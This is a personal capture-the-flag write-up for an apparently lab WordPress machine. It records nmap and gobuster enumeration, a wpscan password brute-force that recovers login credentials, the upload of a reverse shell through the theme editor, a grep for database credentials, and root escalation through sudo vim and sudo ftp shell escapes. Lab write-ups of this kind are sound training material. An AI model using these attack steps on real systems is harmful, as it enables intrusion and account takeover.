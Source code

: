 tags: #privEsc #easy #gobuster #wpscan #sudoVIM #sudoFTP

IP address: 10.10.64.128
# Enumerations
```
nmap -sC -sV 10.10.250.171 -T5
```
![[Pasted image 20240609193857.png]]
```
nmap -p- -A 10.10.250.171 -T5
```
![[Pasted image 20240609202648.png]]
## Open ports
80: HTTP
4512: ssh
## Usernames/passwords
Hugo
C0ldd:9876543210
Philip


# Gobuster
```python
gobuster dir -u 10.10.250.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```
![[Pasted image 20240609194252.png]]
## Directories
/wp-content (Status: 301) [Size: 319] [--> http://10.10.250.171/wp-content/]

/wp-includes (Status: 301) [Size: 320] [--> http://10.10.250.171/wp-includes/]

/wp-admin (Status: 301) [Size: 317] [--> http://10.10.250.171/wp-admin/]

/hidden (Status: 301) [Size: 315] [--> http://10.10.250.171/hidden/]

# Niko Finds
http://10.10.250.171/xmlrpc.php/
There might be a vulnerability with how XML-RPC is set up. Let's try it

> [!NOTE]
> The main weaknesses associated with XML-RPC are: Brute force attacks: Attackers try to login to WordPress using xmlrpc.php .
> lets see how that is actually done & how you might be able to leverage this while your trying to test a wordpress site for any potential vulnerabilites

Did not find anything with xmlrpc.php

# WP-Scans
```bash
 wpscan --url http://10.10.64.128/ -U c0ldd --password-attack wp-login -P /usr/share/wordlists/rockyou.txt
```
### Scan details
[!] XML-RPC seems to be enabled: http://10.10.64.128/xmlrpc.php  
[!] The version is out of date, the latest version is 3.7
### Found credentials 
**c0ldd:9876543210**
![[Pasted image 20240609204402.png]]

# Getting reverse shell after log-in
Appearance -> Editor 
We will be using header.php and uploading pentest monkey reverse shell.
```python
http://10.10.64.128/wp-content/themes/twentyfifteen/header.php
```
Visiting the site starts the reverse shell.
# Upgrading shell (MAKE A DOC FOR THIS)
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
export TERRM=xterm
```
```
stty raw -echo && fg    
```

# User.txt
```python
grep -Hrn c0ldd / 2>/dev/null
"""
-H: This option forces grep to always print the filename where the match was found, even if there's only one file being searched. It stands for "print filename".

-r: This option tells grep to search recursively through directories. It stands for "recursive".

-n: This option tells grep to prefix each line of output with the line number within its file. It stands for "line number".
"""
```
- /var/www/html/wp-config.php:22:define('DB_USER', 'c0ldd');

![[Pasted image 20240609210033.png]]

c0ldd:cybersecurity

```
cat user.txt
```
- RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

# Root.txt
```
sudo -l
```
![[Pasted image 20240609210351.png]]
## VIM
https://gtfobins.github.io/gtfobins/vim/
```
sudo vim -c ':!/bin/sh'
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
## FTP
https://gtfobins.github.io/gtfobins/ftp/
```
sudo ftp
```
```
!/bin/sh
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
